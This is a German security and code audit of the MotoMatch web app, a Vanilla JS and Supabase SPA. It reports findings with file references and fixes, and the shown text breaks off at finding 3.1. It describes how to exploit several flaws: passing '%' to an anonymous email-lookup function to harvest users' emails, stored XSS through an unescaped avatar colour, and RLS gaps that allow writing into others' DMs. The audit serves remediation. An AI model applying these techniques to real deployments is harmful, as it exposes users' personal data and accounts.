


# MotoMatch — Technisches Audit

**Stand:** 28.08.2026 · **Branch:** `fix/vercel-lfs` · **HEAD:** `b689d4c` · **Vercel-Projekt:** `moto-matchwbapp`
**Methode:** Vollständiges Lesen aller Einstiegspunkte, Auth, Schema, API, Konfiguration; Build, `npm audit` und Dev-Server tatsächlich ausgeführt; Vercel- und Supabase-Konfiguration direkt abgefragt; Händler- und Preisdaten stichprobenhaft recherchiert. Read-only — außer den drei Audit-Dateien wurde keine Projektdatei verändert.

---

## 1. Executive Summary

MotoMatch ist eine **Single-Page-App ohne Framework** (Vanilla JS + Vite), die vier ziemlich unterschiedliche Produkte in einer Codebasis vereint: einen Motorrad-Matching-Quiz, einen 3D-Konfigurator, eine Google-Maps-Händlerkarte und einen vollständigen Discord-Klon mit Gruppen, DMs, Web-Push, LiveKit-Sprachkanälen und Screen-Sharing. Die Community allein sind 7.000 Zeilen. Das ist für einen Solo-Entwickler eine bemerkenswerte Menge funktionierender Software.

Das Problem ist nicht die Menge, sondern **wo die Regeln stehen**. Fast jede Zugriffs- und Geschäftsregel — wer eine Gruppe betreten darf, wer wem schreiben darf, wer gesperrt ist — steht im Browser. Die Datenbank hat dafür Row-Level-Security-Policies, aber die sind an den entscheidenden Stellen zu weit gefasst. Wer die Entwicklerkonsole öffnet, umgeht sie. Zusätzlich sind Impressum und Datenschutzerklärung reine Platzhalter-Templates.

**Die fünf gravierendsten Befunde:**

1. **`email_for_username()` gibt anonym E-Mail-Adressen heraus** — `supabase/schema.sql:410-423`: SECURITY-DEFINER-Funktion mit `ILIKE`, an `anon` freigegeben. `%` als Parameter liefert eine fremde E-Mail; iteriert man Muster, die ganze Nutzerliste.
2. **Stored XSS an 20 Stellen** — `src/js/community.js:900` u. a.: die frei wählbare Spalte `profiles.avatar_color` wird unescaped in ein `style`-Attribut geschrieben. Da die Supabase-Session in `localStorage` liegt, ist das Kontoübernahme, nicht nur ein Alert.
3. **Jeder kann in jeden fremden DM-Thread schreiben** — `supabase/schema.sql:281`: `msg_insert_dm` prüft nur den Autor, nicht die Teilnehmer. Blockieren und `dm_policy` existieren ausschließlich im Client.
4. **Gruppen-Beitrittsregeln und Sperren wirken nicht** — `supabase/schema.sql:144`: `gm_insert` erlaubt jedem, sich in jede Gruppe einzutragen, unabhängig von `join_mode` und `group_bans`. Dazu sind alle Einladungscodes aller Gruppen für alle lesbar und änderbar (`:335`, `:341`).
5. **Impressum und Datenschutzerklärung sind unausgefüllte Vorlagen** — `public/impressum.html:180`, `public/datenschutz.html`: `[Name des Betreibers]`, `[kontakt@example.com]`, und in der Datenschutzerklärung stehen Entwickler-Notizen wie `[Prüfen: Werden Nutzereingaben an OpenAI übermittelt?]` für jeden Besucher sichtbar.

**Nachtrag aus der zweiten Prüfrunde.** Eine Annahme aus dem ersten Entwurf war falsch: ich hatte aus der veralteten `.env.production.local` geschlossen, dass in Produktion `ALLOWED_ORIGINS` und die LiveKit-/VAPID-Variablen fehlen. `vercel env ls production` zeigt sie als gesetzt — die `/api/*`-Endpunkte antworten **nicht** pauschal mit 403 (Details in 9.1). Dieselbe Prüfung hat zwei Dinge gezeigt, die schlimmer sind:

- **`VITE_GMAPS_KEY` ist in Produktion nicht gesetzt.** Die Karte lädt also nicht — und `garage.js:1406-1414` zeigt daraufhin die 40 erfundenen Händler aus `dealers.js` als Ergebnisliste. Das ist kein hypothetisches Risiko, das passiert **jetzt gerade**. Von zwei stichprobenhaft recherchierten Einträgen war einer ein Fahrradladen in der falschen Stadt, der andere ein Harley-Davidson-Händler, den es nicht gibt.
- **`mailer_autoconfirm: true`** — E-Mail-Adressen werden nicht verifiziert, jeder kann ein Konto auf eine fremde Adresse anlegen (3.6).

### Kann das so in die Beta?

**Nein.**

Nicht wegen der Qualität — der Build läuft sauber durch, die App startet fehlerfrei, viele Detaillösungen sind durchdacht und ehrlich kommentiert. Sondern weil vier Dinge zusammenkommen, die eine öffentliche Beta unmöglich machen:

- **Der Stand ist gar nicht ausliefbar.** 10 Dateien, die `app.js` importiert, sind nicht in Git (`src/js/nav.js`, `swipe.js`, `viewport.js`, `install.js` u. a.). Aus einem frischen Clone baut das Projekt nicht.
- **Die Datenbank schützt sich nicht selbst.** Bei einer geschlossenen Beta mit Freunden ist das theoretisch. Sobald die Adresse öffentlich ist, ist es das nicht mehr — und E-Mail-Adressen von Beta-Testern abzugeben ist ein meldepflichtiger Vorfall nach Art. 33 DSGVO, kein Bug.
- **Das Impressum fehlt faktisch.** In Deutschland ist das direkt abmahnbar, ab der ersten Minute.
- **Kontolöschung ist nicht implementiert** (`src/js/auth.js:535-544`) — der Knopf dafür existiert und verspricht das Gegenteil (`src/js/account.js:1823`).

Der Weg dorthin ist aber kurz: Die P0-Liste sind überwiegend **SQL-Zeilen und Formularfelder**, kein Umbau. Realistisch **3–5 Arbeitstage** für alle P0 (siehe `BACKLOG.md`).

---

## 2. Gesundheits-Übersicht

| # | Bereich | Bewertung | Begründung |
|---|---|---|---|
| 1 | Architektur & Struktur | 🟡 | Saubere Trennung `community.js` (UI) / `community-api.js` (Daten), aber God-Files (5.164 / 4.699 / 13.798 Zeilen) und ein Zirkelbezug `auth.js ↔ community-api.js`. |
| 2 | Datenmodell & DB | 🔴 | Schema ist nicht idempotent, hat keine Migrationshistorie, kaum Indizes, keine Längen-Constraints; base64-Bilder in `text`-Spalten. |
| 3 | Auth & Autorisierung | 🔴 | RLS-Policies erlauben Schreibzugriffe, die sie verhindern sollen (DMs, Gruppenbeitritt, Invites). Kontolöschung nicht implementiert. |
| 4 | Sicherheit | 🔴 | Stored XSS (20 Stellen), anonyme E-Mail-Preisgabe, Rate-Limit wirkungslos, Origin-Check umgehbar — **live reproduziert**. |
| 5 | API-Design | 🟡 | Nur 5 Endpunkte, konsistent aufgebaut. Aber keine Eingabevalidierung, Upstream-Fehler werden an den Client durchgereicht. |
| 6 | Frontend & State | 🟡 | Kein State-Management, Modul-Level-`let` als globaler Zustand, häufiges `root.innerHTML =` als Render-Strategie. Funktioniert, skaliert im Code aber nicht. |
| 7 | Fehlerbehandlung | 🔴 | Systematisch: optimistisches lokales Update + `await supabase…` ohne Fehlerprüfung an ~28 Stellen. Die UI meldet Erfolg, die DB hat nichts. |
| 8 | Performance | 🔴 | Einzelbilder bis 7,97 MB, `public/` 98 MB. Beim Start werden alle Profile, alle Gruppen, alle Nachrichten und alle DMs ohne Limit geladen. |
| 9 | Konfiguration | 🟡 | Nachgeprüft: die Server-Variablen sind in Vercel gesetzt. Aber `VITE_GMAPS_KEY` fehlt → Karte tot und die erfundenen Händler sind produktiv aktiv; Sentry fehlt; Variablen gibt es nur für Production, nicht für Preview. |
| 10 | Build, Deploy & CI | 🔴 | Build läuft lokal (exit 0), aber 10 für den Betrieb nötige Dateien sind unversioniert → aus dem Repo baut nichts. Keine CI, kein Rollback-Plan, keine Migrations beim Deploy, keine DB-Backups belegt. |
| 11 | Tests | 🔴 | Null Testdateien im gesamten Repo. Kein Test-Runner in `package.json`. |
| 12 | Observability | 🔴 | Sentry ist verkabelt, aber `VITE_SENTRY_DSN`/`SENTRY_DSN` sind nirgends gesetzt → Monitoring ist aus. Kein Alerting, kein strukturiertes Logging. |
| 13 | Code-Qualität | 🟡 | Kommentare sind überdurchschnittlich gut und ehrlich. Aber 71 leere `catch`-Blöcke, toter Code, kein Linter, kein TypeScript, Kommentare die lügen. |
| 14 | UX & Zugänglichkeit | 🟡 | 353 echte `<button>`, 63 `aria-label` — Grundlage stimmt. Aber klickbare `<div>`/`<article>` ohne Tastaturzugang, kein Fokus-Trap in Dialogen. |
| 15 | SEO & Metadaten | 🔴 | Kein `robots.txt`, kein `sitemap.xml`, kein Canonical, `og:image` relativ statt absolut, eine einzige URL für die gesamte App. |
| 16 | Rechtliches (DE/EU) | 🔴 | Impressum und Datenschutz sind Platzhalter. Drittanbieter-CDNs ohne Einwilligung. Löschung nicht möglich. Erfundene Händler und Inserate. |
| 17 | Skalierung & Kosten | 🔴 | Ungedeckelte OpenAI-/Tavily-Kosten über einen faktisch offenen Proxy. Ladeverhalten wächst linear mit der Gesamtdatenmenge, nicht mit der eigenen. |

Keiner der 17 Bereiche ist ⚪ „nicht zutreffend".

---

## 3. Architektur

### Was das hier ist, in einem Absatz

Eine **rahmenlose Single-Page-App**. `index.html` liefert fünf leere `<div>`-Container aus; `src/main.js` startet `startApp()`, und ab dort baut JavaScript jeden Bildschirm per `innerHTML` in einen dieser Container. Es gibt **keine Routen** — alle Bildschirme teilen sich `/`. Die Zurück-Taste funktioniert nur, weil `nav.js` einen eigenen Screen-Stack führt und ihn auf History-Einträge mit derselben URL spiegelt. Daten kommen aus Supabase, ausschließlich über `community-api.js` (Community) bzw. direkt (Auth, Feedback, Push). Fünf Vercel-Functions in `api/` existieren nur, um Server-Secrets vor dem Client zu verstecken.

Der zentrale, nirgends dokumentierte Trick: `src/js/supabase.js:13` setzt **`OFFLINE_MODE = true`, wenn die Supabase-Env-Variablen fehlen**, und dann läuft die gesamte App gegen `localStorage` statt gegen die Datenbank. Das erklärt die doppelte Codeführung in jeder einzelnen Schreibfunktion (`if (OFFLINE_MODE || !_myUid) { … lsWrite … return }`).

### Systemdiagramm



Rot markiert: `_shared.js` ist die einzige Schutzschicht vor OpenAI und Tavily — und sie hält nicht (Befund 4.3).

### Datenmodell (wie es im Schema tatsächlich steht)



**Zwei Auffälligkeiten im Modell selbst:**

- `messages.dm_thread` ist ein **String `"uidA:uidB"` statt zweier Fremdschlüssel**. Dadurch kann Postgres die Teilnahme nicht prüfen, und die RLS-Policy behilft sich mit `LIKE` (`schema.sql:269-271`). Genau daher rührt Befund 3.2.
- Es gibt **keine Tabelle für Motorräder**. Der Katalog sind 10 hartcodierte Objekte in `src/js/matching.js:22-283`.

### Implizite Architekturentscheidungen — und ob sie tragen

| Entscheidung | Wo sichtbar | Trägt bis Beta? | Trägt bis 1.000 Nutzer? |
|---|---|---|---|
| **Kein Framework, `innerHTML` als Render-Engine** | überall, 163 Stellen | Ja | Ja für Nutzer, nein für dich — jede neue Funktion kostet mehr als die vorige, und jedes `innerHTML` ist eine potenzielle XSS-Stelle (Befund 4.1) |
| **RLS ist die *einzige* Autorisierung — es gibt keine Server-Schicht** | `schema.sql`, alle Writes gehen direkt aus dem Browser | **Nein** — die Policies decken nicht ab, was das UI vorgibt | Nein |
| **`OFFLINE_MODE` als stiller Fallback** | `supabase.js:13-23` | **Nein** — eine fehlende Env-Variable macht die App still zur Demo mit Klartext-Passwörtern, statt laut zu scheitern | Nein |
| **Alles-in-den-Speicher-laden statt Paginierung** | `community-api.js:144, 179, 293, 349` | Ja bei 20 Testern | **Nein** — Ladezeit und Traffic wachsen mit der *Gesamt*datenmenge |
| **Optimistisches UI ohne Fehlerprüfung** | ~28 Stellen in `community-api.js` | Ja, sieht schnell aus | Nein — Nutzer sehen Dinge, die nicht gespeichert wurden |
| **Profildaten teils in Supabase, teils in `localStorage`** | `auth.js:442-447` vs. `community-api.js:864-877` | Halb | Nein — dasselbe Profil hat zwei Wahrheiten |
| **Eine URL für alles** | `nav.js:197` (`pushState` mit derselben URL) | Ja | Nein — kein Teilen von Links, kein SEO, keine Analytics pro Seite |

### Wo die Architektur inkonsistent ist

1. **Zwei Profil-Speicherorte.** `profiles` hat die Spalten `display_name`, `bio`, `avatar`. `auth.js:442-447` schreibt für Online-Nutzer trotzdem in `localStorage` (`LS_ONLINE_PROFILES`), während `community-api.js:858-885` dieselben Felder in die DB schreibt. Wer sein Profil im Konto-Bereich ändert, sieht die Änderung in der Community — aber nicht auf einem zweiten Gerät.
2. **Zwei Sticker-Systeme.** Eingebaute Emoji (`community.js:1223 ff.`) und die KLIPY-Bild-API (`stickers.js`), umgeschaltet über `HAS_STICKER_API`. Beide Pfade komplett getrennt implementiert.
3. **Zwei `esc()`-Implementierungen.** `util.js:2` (exportiert) und zusätzlich lokale Kopien in `auth.js:564`, `feedback.js:25`, `landing.js:24`.
4. **Halb migriertes Voice.** LiveKit ersetzt das alte WebRTC-Mesh (`voice.js` Kopfkommentar), aber `.env` trägt weiterhin die toten `VITE_TURN_URL/_USER/_CREDENTIAL`.
5. **Halb migrierter Apple-Login.** `auth.js:186-207` legt selbst im Online-Betrieb ein reines `localStorage`-Konto an (`loginOrRegisterFromProvider`), das in Supabase nie existiert.
6. **Schichtverletzung.** `auth.js:15` importiert `initCommunityData` aus `community-api.js`, das seinerseits `auth.js` importiert. Die Auth-Schicht kennt die Community-Schicht — ein echter Zirkelbezug.
7. **Migrations als Kommentare.** `schema.sql:29-31, 111-114, 298-300` enthalten `ALTER TABLE`-Anweisungen **als Kommentar** mit dem Hinweis „einmalig im SQL-Editor ausführen". Der Code darunter fängt an sechs Stellen ab, dass sie vielleicht nicht gelaufen sind (`community-api.js:181-190, 202-212, 922-929, 1013-1020, 1238-1250, 1503-1519`).

---

## 4. Inventar

### Bildschirme (keine echten Routen — alle unter `/`)

| Bildschirm | Container | Modul | Einstieg |
|---|---|---|---|
| Startseite | `#landing` | `landing.js` | Standard |
| Quiz | `#quiz-screen` | `quiz.js`, `drop-animation.js` | Hero-CTA, `#finder-submit` |
| Bike-Garage / Deckblatt | `#garage-container` | `garage.js` | `?bike=<Name>`, Suche, Entdecken-Karten |
| Konfigurator (Tabs: ansicht, ausstattung, match, community, karte) | `#bike-detail` | `bike-detail.js` | Menü-Drawer, `mm:open-community`, `mm:open-karte` |
| Konto-Overlay | dynamisch | `account.js` | Nav-Icon „Konto", Drawer → Garage |
| Community | in Konfigurator-Tab | `community.js` | Tab `community` |
| Passwort-Reset | Overlay | `auth.js:720` | `?reset=1` |
| Impressum / Datenschutz | eigene HTML-Seiten | statisch | Footer-Links |

**Query-Parameter als Deep-Links:** `?bike=`, `?reset=1`, `?dm=<username>`, `?group=<id>&channel=<id>`.

### API-Endpunkte

| Methode | Pfad | Auth | Rate-Limit | Zweck | Befund |
|---|---|---|---|---|---|
| POST | `/api/ai-match` | Origin-Header | 10/min/IP/Instanz | OpenAI-Erklärung zum Match | 4.3, 4.4, 5.1 |
| POST | `/api/search-places` | Origin-Header | 10/min/IP/Instanz | Tavily-Gebrauchtmarktsuche | 4.3, 5.1 |
| POST | `/api/livekit-token` | **Supabase-JWT** + Origin | 10/min/IP/Instanz | LiveKit-Beitrittstoken | — (solide) |
| POST | `/api/push-trigger` | `x-webhook-secret` | **keins** | Web-Push aus DB-Webhook | 4.7 |
| — | `api/_shared.js` | — | — | kein Endpunkt, gemeinsamer Guard | 4.3 |

### Umgebungsvariablen

Der Stand in Vercel wurde mit `npx vercel env ls production` **direkt geprüft** (nur Namen, keine Werte). `.env.production.local` im Repo ist eine veraltete Momentaufnahme vom 14.08. und nicht aussagekräftig.

| Variable | In `.env.example` | In `.env` (lokal) | **In Vercel Production** | Im Code benutzt | Status |
|---|---|---|---|---|---|
| `VITE_SUPABASE_URL` | ✅ | ✅ | ✅ (15 T.) | `supabase.js:10`, `api/livekit-token.js:29`, `api/push-trigger.js:36` | ok |
| `VITE_SUPABASE_ANON_KEY` | ✅ | ✅ | ✅ (15 T.) | `supabase.js:11` | ok |
| `OPENAI_KEY` | ✅ | ✅ | ✅ (18 T.) | `api/ai-match.js:21` | ok |
| `TAVILY_KEY` | ✅ | ✅ | ✅ (18 T.) | `api/search-places.js:21` | ok |
| `ALLOWED_ORIGINS` | ✅ | ❌ | ✅ (13 T.) | `api/_shared.js:19` | ok — aber wirkungslos als Schutz (4.3) |
| `VITE_LIVEKIT_URL` | ✅ | ✅ | ✅ (10 T.) | `voice.js:57` | ok |
| `LIVEKIT_API_KEY` / `_SECRET` | ✅ | ✅ | ✅ (10 T.) | `api/livekit-token.js:23-24` | ok, aber als *Non-sensitive* hinterlegt (9.5) |
| `VITE_VAPID_PUBLIC_KEY` | ✅ | ❌ | ✅ (11 T.) | `push.js:55` | ok in Prod, fehlt lokal |
| `VAPID_PRIVATE_KEY` / `VAPID_SUBJECT` | ✅ | ❌ | ✅ (11 T.) | `api/push-trigger.js:34-35` | ok in Prod, fehlt lokal |
| `SUPABASE_WEBHOOK_SECRET` | ✅ | ❌ | ✅ (11 T.) | `api/push-trigger.js:28` | ok in Prod, fehlt lokal |
| `SUPABASE_SERVICE_ROLE_KEY` | ✅ | ❌ | ✅ (11 T.) | `api/push-trigger.js:37` | ok in Prod, fehlt lokal |
| **`VITE_GMAPS_KEY`** | ✅ | ✅ | **❌** | `garage.js:45` | **Karte in Produktion tot → erfundene Händler werden angezeigt (9.1)** |
| **`VITE_SENTRY_DSN` / `SENTRY_DSN`** | ✅ (leer) | ❌ | **❌** | `monitoring.js:55`, alle `api/*` | **Monitoring ist aus (12.1)** |
| `VITE_KLIPY_KEY` | ✅ | ✅ (leer) | ❌ | `stickers.js:16` | inaktiv — Emoji-Rückfall greift |
| `VITE_GOOGLE_CLIENT_ID` | ✅ | ✅ | ❌ | `auth.js:105` | **wird gelesen, aber nie verwendet** — der Google-Button läuft über `signInWithOAuth`, der Login funktioniert trotzdem |
| `VITE_APPLE_CLIENT_ID` | ✅ | ❌ | ❌ | `auth.js:106` | Apple-Login inaktiv — und in Supabase ist der Apple-Provider ebenfalls aus (`"apple": false`) |
| `VITE_TURN_URL` / `_USER` / `_CREDENTIAL` | ❌ | ✅ | ❌ | **nirgends** | **tot** (WebRTC-Relikt) |

> Alle 13 gesetzten Variablen existieren **nur** für die Umgebung `Production`, nicht für `Preview` oder `Development` — siehe Befund 9.4.

### Externe Dienste (tatsächlich im Code kontaktiert)

| Dienst | Wo | Einwilligung? | In der Datenschutzerklärung? |
|---|---|---|---|
| Supabase (US) | `supabase.js:17` | — (Vertrag) | ✅ |
| Google Maps + Places | `garage.js:936` | ✅ **2-Klick-Lösung** | ✅ |
| `gstatic.com` (DRACO-Decoder) | `bike-detail.js:4501`, `garage.js:417`, `quiz.js:170` | ❌ | ❌ |
| `fc-moto.com` (34 Bilder) | `gear.js` | ❌ | ❌ |
| `cdn2.louis.de` (23 Bilder) | `gear.js` | ❌ | ❌ |
| `m.media-amazon.com` (7 Bilder) | `gear.js` | ❌ | ❌ |
| OpenAI | `api/ai-match.js:42` | — (serverseitig) | ✅ |
| Tavily | `api/search-places.js:29` | — (serverseitig) | ✅ (Betreiber = Platzhalter) |
| LiveKit Cloud | `voice.js:157` | ❌ | ❌ |
| KLIPY | `stickers.js:106` | ❌ | ❌ |
| Sentry | `monitoring.js:60` | ❌ | ❌ |
| Apple ID JS | `auth.js:192` | ❌ | ❌ |
| Push-Dienste | `sw.js` | Notification-Permission | ❌ |
| **Open-Meteo** | **nirgends** | — | ✅ **gelistet, aber nicht benutzt** |

### Größe

- **38.325 Zeilen** in JS/CSS/SQL/HTML
- Größte Dateien: `src/styles/main.css` 13.798 · `community.js` 5.164 · `bike-detail.js` 4.699 · `account.js` 2.131 · `garage.js` 1.915 · `community-api.js` 1.805 · `quiz.js` 1.338
- 27 Module in `src/js/`, tiefste Verschachtelung 2 Ebenen (`src/js/`, `src/styles/`)
- `public/` 98 MB · `dist/` 111 MB

---

## 5. Befunde nach Bereich

### 1 — Architektur & Struktur

#### 1.1 Zirkulärer Import zwischen Auth- und Datenschicht — P2
*Weil es die Schichtgrenze auflöst und Initialisierungsreihenfolgen fragil macht, aber heute funktioniert.*

**Fundstellen:** `src/js/auth.js:15`, `src/js/community-api.js:20`

```js
// auth.js:15
import { initCommunityData, unsubscribeAll, setMyProfile } from './community-api.js'
// community-api.js:20
import { findUserByUsername, searchUsers, getUserRecord, currentUser } from './auth.js'
```

**Warum das ein Problem ist:** ESM löst den Zyklus über Hoisting auf, solange niemand beim Modul-Laden aufruft. Sobald das jemand tut, ist eine der beiden Seiten `undefined` — ein Fehler, der nur in Produktion und nur manchmal auftritt. Sachlich falsch ist außerdem, dass `auth.js` überhaupt weiß, dass es eine Community gibt.

**Fix:** `initCommunityData` nicht aus `auth.js` heraus aufrufen, sondern in `app.js` an das `mm:auth-changed`-Event hängen, das `auth.js:220` ohnehin schon feuert. **Aufwand: S**

#### 1.2 Drei God-Files — P2
*Weil es dich bremst, aber keinen Nutzer stört.*

**Fundstellen:** `src/styles/main.css` (13.798 Z.), `src/js/community.js` (5.164 Z.), `src/js/bike-detail.js` (4.699 Z.)

`community.js` enthält Auth-Bildschirm, Gruppenübersicht, Chat, DMs, Sprachkanäle, Screen-Share, Einstellungs-Panel, Moderations-Panel, Sticker-Picker und Anruf-UI in einer Datei.

**Fix:** Nach Bildschirm aufteilen (`community/chat.js`, `community/voice-ui.js`, `community/settings.js`, `community/moderation.js`). Der Datenzugriff ist bereits sauber in `community-api.js` getrennt — die Aufteilung ist mechanisch, kein Redesign. **Aufwand: L**

#### 1.3 Vier Kopien derselben `esc()`-Funktion — P3

**Fundstellen:** `src/js/util.js:2` (die exportierte), `src/js/auth.js:564`, `src/js/feedback.js:25`, `src/js/landing.js:24`

Alle vier sind identisch. Wenn du eine davon härtest (z. B. um `javascript:` zu filtern, siehe 4.2), härtest du drei nicht mit.

**Fix:** Die drei lokalen löschen, `import { esc } from './util.js'`. **Aufwand: S**

#### 1.4 Toter Code — P3

| Datei | Zeilen | Warum tot |
|---|---|---|
| `src/counter.js` | 9 | Vite-Starter-Template, nirgends importiert |
| `src/style.css` | 296 | Vite-Starter-Template; `main.js:1` importiert nur `styles/main.css` |
| `src/assets/vite.svg`, `javascript.svg` | — | Template-Reste |
| `copy-bikes.mjs`, `copy-assembly.js` | 50 | in keinem npm-Script, keiner Config referenziert |
| `vite.config.js:7-67` | 60 | `const isLocal = existsSync('D:/MotoMatch/Bilder')` — Windows-Pfad, auf macOS immer `false` |
| `.env`: `VITE_TURN_*` | 3 | WebRTC-Mesh-Relikt, seit LiveKit ungenutzt |

**Fix:** Löschen. **Aufwand: S**

---

### 2 — Datenmodell & Datenbank

#### 2.1 `schema.sql` ist nicht wiederholbar ausführbar — P1
*Weil du keinen belegbaren Weg hast, die Datenbank neu aufzubauen oder zu aktualisieren.*

**Fundstellen:** `supabase/schema.sql` — alle 47 `CREATE POLICY`-Anweisungen; Migrations-Kommentare in `:29-31`, `:111-114`, `:298-300`

```sql
-- schema.sql:111-114
-- Migration für bereits bestehende Datenbanken … einmalig im SQL-Editor ausführen:
-- ALTER TABLE groups ADD COLUMN IF NOT EXISTS event_at timestamptz;
```

**Warum das ein Problem ist:** `CREATE TABLE IF NOT EXISTS` ist idempotent, `CREATE POLICY` nicht. Ein zweiter Lauf bricht mit `policy … already exists` ab — mitten im Skript, mit halb angewendetem Zustand. Die eigentlichen Änderungen stehen auskommentiert daneben und müssen von Hand gefunden werden. Es gibt keine Aufzeichnung, welche davon in welcher Umgebung gelaufen sind. Genau deshalb enthält `community-api.js` an **sechs** Stellen Fallback-Code für fehlende Spalten (`:181, 202, 922, 1013, 1238, 1503`) — die Anwendung rät, wie ihr eigenes Schema aussieht.

**Empfohlener Fix:** Supabase-CLI aufsetzen, `supabase/migrations/` mit einer Baseline aus dem Ist-Zustand (`supabase db diff`), danach jede Änderung als nummerierte Migration. Alle `CREATE POLICY` auf `DROP POLICY IF EXISTS … ; CREATE POLICY …` umstellen. Danach die sechs Fallback-Zweige entfernen. **Aufwand: M**

#### 2.2 Fehlende Indizes auf allen Fremdschlüsseln außer zweien — P2

**Fundstellen:** `supabase/schema.sql:295-296` sind die **einzigen** beiden Indizes im Schema.

Nicht indiziert, aber in jedem Ladevorgang gefiltert: `friendships(user_a)`, `friendships(user_b)`, `group_members(user_id)`, `friend_requests(to_user)`, `friend_requests(from_user)`, `push_subscriptions(user_id)`, `channels(group_id)`, `voice_rooms(group_id)`, `group_rsvps(user_id)`, `blocks(blocker)`, `ignores(ignorer)`, `messages(author_id)`.

`push_subscriptions(user_id)` ist besonders relevant: `api/push-trigger.js:115` und `:157` fragen genau danach, bei jeder einzelnen Nachricht.

**Fix:**
```sql
CREATE INDEX IF NOT EXISTS friendships_user_a  ON friendships(user_a);
CREATE INDEX IF NOT EXISTS friendships_user_b  ON friendships(user_b);
CREATE INDEX IF NOT EXISTS gm_user            ON group_members(user_id);
CREATE INDEX IF NOT EXISTS freq_to            ON friend_requests(to_user);
CREATE INDEX IF NOT EXISTS push_sub_user      ON push_subscriptions(user_id);
CREATE INDEX IF NOT EXISTS channels_group     ON channels(group_id);
CREATE INDEX IF NOT EXISTS voice_rooms_group  ON voice_rooms(group_id);
```
**Aufwand: S**

#### 2.3 Keine Längenbegrenzung auf irgendeinem Textfeld — P1
*Weil ein einziger Nutzer die Datenbank vollschreiben kann und alle anderen es herunterladen müssen.*

**Fundstellen:** `supabase/schema.sql:10` (`username text`), `:15` (`avatar text`), `:221` (`text text NOT NULL`), `:193` (`title text`)

```sql
-- schema.sql:15
avatar text,  -- Profilbild als Data-URL (base64), analog zum localStorage-Offline-Modus
-- schema.sql:221
text          text NOT NULL,
```

**Warum das ein Problem ist:** `messages.text` hat kein `CHECK (length(text) <= n)`. Der Client begrenzt bei 2.000 Zeichen (`feedback.js:16`) bzw. gar nicht (Chat), aber der Client ist nicht die Grenze. Schlimmer ist `profiles.avatar`: ein base64-Bild in einer Textspalte, das `community-api.js:144` (`select('*')`) **für jeden Nutzer bei jedem App-Start mitlädt**. Bei 500 Nutzern mit je 1,5 MB Avatar sind das 750 MB pro Seitenaufruf.

**Fix:**
```sql
ALTER TABLE messages ADD CONSTRAINT msg_len CHECK (length(text) <= 4000);
ALTER TABLE profiles ADD CONSTRAINT bio_len CHECK (length(bio) <= 300);
ALTER TABLE profiles ADD CONSTRAINT uname_fmt CHECK (username ~ '^[A-Za-z0-9_.-]{2,24}$');
```
Und mittelfristig: Avatare wie Chat-Anhänge in den Storage-Bucket, in `profiles` nur die URL. **Aufwand: M**

#### 2.4 Keine Transaktionen bei mehrstufigen Schreibvorgängen — P2

**Fundstelle:** `src/js/community-api.js:917-956` (`createGroup`)

Drei aufeinanderfolgende Inserts (`groups` → `group_members` → `channels`), von Hand kompensiert:
```js
if (gmErr) { await supabase.from('groups').delete().eq('id', gRow.id); return … }
if (cErr)  { await supabase.from('groups').delete().eq('id', gRow.id); return … }
```
Bricht der Browser zwischen Insert 2 und dem Kompensations-Delete ab (Tab geschlossen, Netz weg), bleibt eine Gruppe ohne Kanal zurück. `_handleNewOwnedGroup:802` pollt dann fünfmal vergeblich.

**Fix:** Als Postgres-Funktion mit `SECURITY DEFINER` zusammenfassen und per `supabase.rpc('create_group', …)` aufrufen — dann ist es eine Transaktion. **Aufwand: M**

#### 2.5 Zwei Datenbanktabellen werden nie gelesen — P2

**Fundstellen:** `supabase/schema.sql:349-363` (`message_reports`), `:366-377` (`user_reports`)

`community-api.js:1307` und `:1749` schreiben hinein. Aber es gibt **keinen `_loadMsgReports()`/`_loadUserReports()`** — `_msgReports` und `_userReports` bleiben online leer (`community-api.js:64-65`, nur `_loadFromLocalStorage:137-138` füllt sie). Das Moderations-Panel (`community.js:4029`) zeigt online also immer eine leere Liste.

**Warum das ein Problem ist:** Nutzer melden Inhalte, die Meldung landet in der DB, und der Gruppen-Moderator sieht sie nie. Für eine offene Community mit Fremden ist das die Moderationsfunktion, die nicht funktioniert.

**Fix:** `_loadMsgReports()` analog zu `_loadGroupRequests()` ergänzen und in `initCommunityData:106` einhängen. **Aufwand: S**

---

### 3 — Auth & Autorisierung

#### 3.1 `email_for_username()` gibt anonym fremde E-Mail-Adressen heraus — P0
*Weil es eine Preisgabe personenbezogener Daten an Unbeteiligte ist — meldepflichtig nach Art. 33 DSGVO.*

**Fundstelle:** `supabase/schema.sql:410-423`

```sql
CREATE OR REPLACE FUNCTION email_for_username(uname text)
RETURNS text LANGUAGE sql SECURITY DEFINER SET search_path = public AS $$
  SELECT au.email FROM auth.users au JOIN profiles p ON p.id = au.id
  WHERE p.username ILIKE uname LIMIT 1
$$;
GRANT EXECUTE ON FUNCTION email_for_username(text) TO anon, authenticated;
```

